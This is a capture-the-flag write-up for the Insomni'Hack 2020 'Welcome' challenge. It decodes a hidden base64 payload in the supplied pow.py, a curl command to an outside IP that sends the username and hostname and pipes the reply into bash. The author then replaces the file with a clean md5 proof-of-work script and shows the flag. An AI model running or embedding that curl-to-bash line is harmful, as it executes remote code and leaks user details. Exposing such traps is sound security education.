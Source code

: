 # [cd ../](../index.md)
# Welcome

> This year we added a Proof of Work to some of our challenges.

> Just run `python pow.py <target>`, were `target` is the value provided by the server and get the flag.

> [pow](https://storage.googleapis.com/insomnihack/media/pow.zip)

> `nc welcome.insomnihack.ch 1337`

# Files we got
- [pow.zip](from_box/pow.zip)
- And if u extract it u got [pow.py](from_box/pow-b39e9d8f81a48ac92097ce060d587ace718c2db8bc9b3906ac640b90a62dc497.py)

# Start
Just run `nc welcome.insomnihack.ch 1337` and we got 
```
======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "06b292" and get the flag ;)

```
- It needs an input
- We got the starting of the md5 string but we need to input the cleartext one  
Like: the server gives `098f6b` and we have to guess the original string that is `test` now. To check it we can use `echo -n "test" | md5sum` and we got `098f6bcd4621d373cade4e832627b4f6  -`

# Cracking
- We have to crack it somehow so lets take a look at the script we got :D
- It has some weird encoded base64 string in an `exec` function.  
Thats weird af. Decrypt it! We got
```
global i;i+=1337;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)
```
![delthis](delthis.png)  
What can I say except delete this
- Now we have the correct code([pow_corrected.py](pow_corrected.py))

```
#!/usr/bin/python3

import hashlib
import sys

target = sys.argv[1]
i = 0

def pow():
    global i, target
    while True:
        m = hashlib.md5()
        m.update(str(i).encode())
        h = m.hexdigest()
        if h[:6] == target:
            print(i)
            exit(0)
        i += 1

if __name__ == '__main__':
    pow()
```

## Getting the flag
- Just connect to nc `nc welcome.insomnihack.ch 1337`
- Copy the string u got `d2295b`
- Run the decryptor `python pow_corrected.py d2295b`
- Send the output `15882830`

# Got it
```
======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "d2295b" and get the flag ;)
15882830


MITM are real: check SHA, check code, ...

INS{Miss me with that fhisy line}
```
The flag is `INS{Miss me with that fhisy line}`

